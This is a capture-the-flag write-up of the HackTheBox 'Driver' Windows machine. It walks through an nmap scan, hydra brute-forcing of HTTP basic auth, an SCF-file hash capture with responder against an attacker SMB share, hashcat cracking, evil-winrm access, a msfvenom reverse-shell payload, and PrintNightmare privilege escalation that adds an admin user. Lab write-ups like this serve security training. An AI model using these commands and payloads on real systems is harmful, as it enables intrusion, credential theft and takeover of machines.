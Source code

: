 # Hackthebox Driver - Windows

## Nmap

```
┌──(root💀kali)-[~]
└─# nmap -T5 -sC -sV -O -p- 10.10.11.106    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-30 19:37 EDT
Nmap scan report for 10.10.11.106
Host is up (0.026s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (91%), Microsoft Windows 10 1511 - 1607 (87%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 10 1607 (85%), Microsoft Windows 10 1511 (85%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows Server 2008 SP1 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-05-01T06:46:14
|_  start_date: 2022-05-01T06:42:07
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 7h07m35s, deviation: 0s, median: 7h07m34s

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.54 seconds
```

## Port 80

### Inspecting with burp

The response header when trying to authenticate gives this (we can also see it in the nmap scan):
```
WWW-Authenticate: Basic realm="MFP Firmware Update Center. Please enter password for admin"
```
So we get username, we can try to bruteforce with hydra `hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.11.106 http-get`
```
┌──(root💀kali)-[~]
└─# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.11.106 http-get                                                                                                                                                           255 ⨯
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-30 19:55:19
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://10.10.11.106:80/
[STATUS] 6124.00 tries/min, 6124 tries in 00:01h, 14338275 to do in 39:02h, 16 active
[STATUS] 6045.00 tries/min, 18135 tries in 00:03h, 14326264 to do in 39:30h, 16 active
[80][http-get] host: 10.10.11.106   login: admin   password: admin
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-04-30 19:58:36
```
- So we have admin:admin credentials

There is a file upload functionality and it says it will go in the share. It bugged me for a while and then I remember the URL File attack
So I uploaded this file
```
[Shell]
Command=2
IconFile=\\10.10.14.2\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```
- I named it with and @ at the begining for instance `@csbygb`
- And then we need to launch responder with smb server on obviously `responder -w --lm -v -I tun0`
- And we get hashes!  
![image](https://user-images.githubusercontent.com/96747355/166127479-62d92e82-0ce3-4bc5-ba8a-429e1b42359a.png)  
- Now we just have to crack one of them with hashcat
- We just need to copy a whole one like this `tony::DRIVER:a05acd47ab1ac310:B15097FF39CD452C8F8E53BDC33B7B37:0101000000000000DF515CFA2F5DD801D1688BA244C5025400000000020000000000000000000000`
- And then launch hashcat as follow `hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt`
- And we get the password `liltony`  
![image](https://user-images.githubusercontent.com/96747355/166127617-791920c3-cccd-4c58-b619-ff2e1515cea7.png)  
- Let's see what shares we have
```
┌──(root💀kali)-[~/Documents/hackthebox/driver]
└─# smbclient -L //10.10.11.106 -U 'tony'                                                                                                                                                                                                1 ⨯
Enter WORKGROUP\tony's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.106 failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available
```
- Let's use cracmapexec to see how we could use the creds  
![image](https://user-images.githubusercontent.com/96747355/166128322-f37c77a4-be30-4be1-8291-568e5243a846.png)  
- Let's get a shell with evil-winrm `evil-winrm -i 10.10.11.106 -u tony -p liltony`
- It works! Let's grab our user flag in tony's desktop!

## Privesc

- Let's get winpeas and execute it in our target
- In our kali `wget https://github.com/carlospolop/PEASS-ng/releases/download/20220424/winPEASx64.exe`
- Now we just have to upload it in our target with evilwinrm it really easy we just need to type `upload winPEASx64.exe`
- And we launch it `.\winPEASx64.exe`
- Winpeas shows that there is a powershell history file  
![image](https://user-images.githubusercontent.com/96747355/166128680-3edae579-a4c4-49c1-a595-07f5e3770547.png)  
- If we google the specific driver we have a privesc vuln
- Let's get a shell with msfconsole so that we can privesc using a metasploit module
- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f exe -o reverse2.exe`
- in our evvilwinrm shell `upload reverse.exe`
- I got annoyed with this exploit because I could not make it work
- I decided to use [printnightmare](../windows/printNightmare.md) instead
  - `wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1`
  - From evil winrm `upload CVE-2021-1675.ps1`
  - `Import-Module .\CVE-2021-1675.ps1`
  - `Get-Command Invoke-Nightmare`
  - `Invoke-Nightmare -NewUser "csbygb" -NewPassword "csbygb123!"`
  - Finally if we net user we see we are in the admin group `net user csbygb`
  - Now we just need to use evil-winrm with our new user `evil-winrm -i 10.10.11.106 -u csbygb -p csbygb123!`
  - And we can grab the admin flag 
  - `cd C:\Users\Administrator\Desktop`
  - `type root.txt`
